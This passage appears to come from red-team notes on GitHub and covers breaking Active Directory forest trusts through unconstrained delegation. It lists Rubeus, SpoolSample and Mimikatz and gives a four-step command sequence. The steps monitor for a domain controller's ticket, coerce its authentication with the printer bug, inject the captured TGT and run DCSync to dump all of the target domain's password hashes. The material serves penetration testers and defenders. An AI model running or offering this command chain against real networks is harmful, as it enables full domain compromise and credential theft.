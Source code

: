 Tools we are going to use:
- [Rubeus](https://github.com/GhostPack/Rubeus)
- [SpoolSample](https://github.com/leechristensen/SpoolSample)
- [Mimikatz](https://github.com/gentilkiwi/mimikatz)

Exploitation example:
```
#Start monitoring for TGTs with rubeus:
Rubeus.exe monitor /interval:5 /filteruser:target-dc$

#Execute the printerbug to trigger the force authentication of the target DC to our machine
SpoolSample.exe target-dc$.external.forest.local dc.compromised.domain.local

#Get the base64 captured TGT from Rubeus and inject it into memory:
Rubeus.exe ptt /ticket:<Base64ValueofCapturedTicket>

#Dump the hashes of the target domain using mimikatz:
lsadump::dcsync /domain:external.forest.local /all 
```

Detailed Articles:
- [Not A Security Boundary: Breaking Forest Trusts](https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/)
- [Hunting in Active Directory: Unconstrained Delegation & Forests Trusts](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)